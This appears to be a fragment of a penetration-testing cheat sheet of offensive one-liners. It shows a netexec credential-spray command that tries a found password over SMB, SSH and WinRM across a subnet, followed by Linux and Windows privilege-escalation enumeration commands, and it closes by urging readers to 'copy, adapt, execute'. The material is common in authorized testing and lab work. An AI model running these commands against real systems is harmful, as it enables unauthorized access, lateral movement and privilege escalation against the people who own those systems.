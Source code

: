 ### Found creds, test EVERYWHERE
```bash
# One-liner credential spray
PASS="Found123!" && netexec smb 10.10.10.0/24 -u admin -p "$PASS" && netexec ssh 10.10.10.0/24 -u root -p "$PASS" && netexec winrm 10.10.10.0/24 -u admin -p "$PASS"
```

### Need privesc paths NOW
```bash
# Linux:
sudo -l; id; find / -perm -4000 2>/dev/null; getcap -r / 2>/dev/null

# Windows:
whoami /priv | findstr /i "SeImpersonate\|SeAssignPrimaryToken\|SeBackup\|SeRestore\|SeDebug"
```

---

**These one-liners save time by chaining related commands. Modify IPs/credentials as needed. Copy, adapt, execute!** ⚡
